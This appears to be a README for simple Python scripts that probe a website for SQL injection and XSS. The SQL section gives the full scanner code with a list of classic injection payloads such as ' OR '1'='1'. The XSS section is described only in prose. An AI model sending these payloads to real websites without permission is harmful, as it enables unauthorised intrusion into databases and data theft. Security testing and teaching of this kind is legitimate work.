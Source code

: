===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
<br>
test_sql_injection(url, payloads)

===========================================
  <br>
                   XSS
  <br>
===========================================
First, make sure you have the requests library installed. If not, you can install it using pip:
<br>
pip install requests

Explanation:
URL Definition: The URL of the target website is defined as url.
Payloads List: A list of common XSS payloads is defined. These payloads will be tested to see if they are reflected in the response.
Function Definition (test_xss): This function takes the URL and payloads as parameters and iterates through each payload:
Construct URL: For each payload, the script constructs a test URL by appending the payload to the query parameter input.
Send Request: It sends an HTTP GET request to the constructed URL.
Check Response: It checks if the payload is reflected in the response text. If it is, it prints a message indicating a potential XSS vulnerability. If not, it prints a message that the payload did not trigger an XSS vulnerability.
Error Handling: The script includes error handling to catch and print any exceptions that occur during the HTTP request.

<br>
SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!

